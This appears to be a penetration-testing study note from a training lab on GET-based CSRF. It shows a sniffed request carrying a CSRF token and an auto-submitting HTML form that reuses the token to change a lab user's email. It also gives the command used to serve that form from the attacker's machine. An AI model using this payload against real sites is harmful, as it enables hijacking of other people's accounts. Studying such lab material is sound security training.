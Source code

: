 ```yaml
---
title: f-GET Based CSRF
draft: false
tags:
  - csrf
---
```

Similar to how we can extract session cookies from applications that do not utilize SSL encryption, we can do the same regarding CSRF tokens included in unencrypted requests.

## Exploitation

> Log-in to the vulnerable web app. Click and save Julie Roger's profile.

Intercepting the profile update traffic with Burp, we will see the below:

```
GET /app/save/julie.rogers@example.com?telephone=1234&country=Korea&csrf=234dfg0230j23r9v032o4n0sdvsjnf2034&action=save
```

We can see that CSRF token is included in the GET request.

Let's say an attacker on the local network sniffed the above request.

First, create and serve the below HTML page. Save it as `notmalicious_get.html`

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

Notice that the CSRF token's value above is the same as the CSRF token's value in the captured/"sniffed" request.

You can serve the page above from your attacking machine as follows.

```shell-session
jadu101@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

While still logged in as Julie Rogers, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/notmalicious_get.html`. You will notice that Julie Rogers' profile details will change to the ones we specified in the HTML page you are serving.

